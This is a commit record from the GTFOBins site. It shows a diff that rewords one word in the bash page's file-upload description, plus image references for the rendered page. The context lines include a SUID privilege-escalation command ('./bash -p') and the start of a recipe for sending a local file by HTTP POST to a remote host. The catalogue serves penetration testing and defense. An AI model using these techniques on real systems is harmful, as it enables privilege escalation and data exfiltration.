

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide. Shown: the part 732-1035 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Rephrase bash

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -7,7 +7,7 @@ functions:
   suid-enabled:
     - code: ./bash -p
   upload:
-    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file from the other end.
+    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file on the other end.
       code: |
         RHOST=10.0.0.1
         RPORT=8000
```
